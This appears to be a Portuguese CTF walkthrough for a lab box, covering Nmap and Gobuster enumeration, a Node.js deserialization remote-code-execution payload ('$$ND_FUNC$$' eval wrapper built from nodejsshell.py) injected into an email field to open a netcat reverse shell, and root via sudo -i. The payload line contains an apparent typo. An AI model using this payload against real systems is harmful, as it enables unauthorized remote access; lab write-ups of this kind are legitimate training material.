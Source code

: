 # _**Jack sucks alot CTF**_
![](jack.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p [port_range] -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos um website  
Vamos realizar um scan com <mark>Gobuster</mark> em busca de diretórios
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/common.txt
> ```
![](scan_gobuster.jpg)

Vamos alterar nosso comando para poder realizar o scan
> ```bash
> gobuster dir -u http://[ip_address]/ -w ../seclists/Discovery/Web-Content/common.txt --status-codes-blacklist 200
> ```
![](scan_gobuster2.jpg)

## _**Ganhando acesso**_
Por um tempo, fiquei procurando alguma solução para este formulário de e-mail que aparecia na página web  
Até que encontrei uma solução  
Primeiro, [neste link](https://qiita.com/kk0128/items/bc50e81ef1166080dfa9)  
No _write-up_, é mencionado uma vulnerabilidade onde um bug de desserialização do Node.js é explorando  para execução remota de código  
Sendo necessário utilizar a ferramenta <mark>Burp Suite</mark>  
Tentando obter um _shell_ estava parecendo impossível  
Fui buscar outra forma  
E encontrei dda seguinte maneira: 
* Primeiro, realizamos o _download_ do [programa](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)
* Segundo, executamos colocando nosso IP da VPN e a porta que queremos; teremos uma STRING
* Terceiro, com o resultado, adicionamos a seguinte linha: <mark>_$$ND_FUNC$$_function(){eval.(String(fromCharCode(STRING)))}()</mark>; isso será nosso _payload_
* Quarto, adicionamos o _payload_ no campo de e-mail, já com ```netcat``` escutando
![](RCE.jpg)

## _**Escalando privilégios**_
Executando o comando ```sudo -l```, temos o retorno abaixo  
Basta executar ```sudo -i``` e temos _root_  

![](root.jpg)

Agora, basta ir atrás das flags!
